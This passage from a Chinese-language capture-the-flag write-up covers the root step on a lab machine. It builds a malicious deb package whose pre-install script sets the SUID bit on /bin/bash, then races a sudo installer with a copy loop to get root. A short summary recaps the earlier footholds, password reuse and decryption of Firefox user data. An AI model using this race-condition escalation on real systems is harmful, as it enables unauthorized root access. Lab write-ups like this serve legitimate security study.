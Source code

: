 
可以看到，下载到**deb**包之后进行安装，随后又立即删除，这里可以尝试时间竞争，通过**dpkg**进行提权

- [dpkg | GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/)

需要提前安装**fpm**

```
gem install fpm
```

然后制作恶意**deb**上传上去

```
[root@kali] /home/kali/Interceptor  
❯ TF=$(mktemp -d)

[root@kali] /home/kali/Interceptor  
❯ echo 'chmod u+s /bin/bash' > $TF/x.sh

[root@kali] /home/kali/Interceptor  
❯ fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```

这里我开了两个**ftpuser**的终端，可以再弹一个**shell**

分别运行

```
sudo /usr/bin/installer
```

还有

```
ftpuser@debian:/tmp$ cat poc.sh
cat poc.sh
#!/bin/bash

for i in {1..10000}
do
    cp /tmp/x_1.0_all.deb /tmp/monitoring-agent.deb
done

ftpuser@debian:/tmp$ bash poc.sh
bash poc.sh
```

最后成功拿到**root**权限

![](./images/image-317.png)

## Summary

`User`：**wpscan**扫到调试日志，根据插件查找到用户数据，进而登录到**fping**进行命令执行，拿到**www-data**。查看到**wp-config**的密码，存在密码复用，拿到**vincent**。通过解密**vincent**目录下的**firefox**用户数据，拿到了**ftpuser**权限。

`Root`：通过时间竞争，恶意覆盖**deb**包，然后通过**dpkg**进行提权。
